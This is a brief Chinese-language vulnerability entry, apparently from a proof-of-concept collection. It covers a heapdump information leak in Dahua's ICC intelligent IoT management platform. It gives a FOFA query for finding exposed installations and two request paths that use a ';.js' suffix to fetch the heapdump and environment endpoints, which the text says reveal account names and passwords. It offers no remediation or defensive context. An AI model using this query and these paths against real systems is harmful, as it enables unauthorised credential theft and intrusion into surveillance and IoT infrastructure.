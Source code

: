 # 大华ICC智能物联综合管理平台heapdump敏感信息泄露

大华ICC智能物联综合管理平台heapdump文件敏感信息泄露，可以获取账号和密码。

## fofa

```
body="static/fontshd/font-hd.css" || body="客户端会小于800"
```

## poc

```
/evo-apigw/dsc-mac/heapdump;.js
/evo-apigw/dsc-mac/env;.js
```



![image-20240702231803309](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407022318391.png)